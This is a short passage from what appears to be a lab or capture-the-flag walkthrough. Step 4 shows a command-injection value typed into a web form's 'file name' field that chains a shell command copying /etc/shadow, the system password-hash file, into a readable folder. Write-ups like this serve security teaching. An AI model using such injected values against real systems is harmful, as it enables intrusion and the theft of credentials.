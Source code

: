 ![s4_sol_os3.png](./img/s4_sol_os3.png)

4. Repeat the process for the `/etc/shadow` file. Leave the file content box empty and in the `file name` box, write the following:

```bash
shadow; cat /etc/shadow > /root/files/shadow;
```
